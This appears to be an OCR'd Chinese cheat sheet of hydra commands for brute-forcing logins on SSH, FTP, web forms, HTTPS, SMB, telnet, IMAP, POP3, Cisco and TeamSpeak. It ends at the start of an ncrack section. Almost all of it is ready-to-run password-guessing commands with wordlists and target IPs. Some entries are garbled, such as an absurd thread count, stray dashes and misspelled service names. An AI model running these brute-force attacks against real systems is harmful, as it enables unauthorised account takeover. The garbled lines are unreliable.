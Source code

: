 ```
#ssh
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
hydra -l 用户名 -p 密码字典 -t 线程 -o /1 -vV ip ssh

#ftp
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) –vV
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

#web http header
hydra -L /usr/share/wordlists/metasploit/http_default_users.txt -P /usr/share/wordlists/metasploit/http_default_pass.txt -e ns -f -s 12345 192.168.3.173 http-head

#web get
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get/admin/
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get/admin/index.PHP

#web post
hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorrypassword"
hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username orpassword</title>"

#web https
hydra -m /index.php -l admin -P pass.txt 10.36.16.18 https

#http proxy
hydra -l admin -P pass.txt http-proxy://10.36.16.18

#smb
hydra -l administrator -P pass.txt 10.36.16.18 smb

 telnet
hydra ip telnet  -L 用户 -P 密码 -e ns -f -v -t 10000000000000000000

#imap
hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN

#pop3
hydra -l admin -P pass.txt my.pop3.mail pop3

#cisco
hydra -P pass.txt 10.36.16.18 cisco
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

#tealmspeak
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

```

## ncrack
开源工具，网络认证协议破解。
可快速可导的审核大型网络的默认密码、弱密码，可对单个服务进行暴力破解。
常用参数及示例
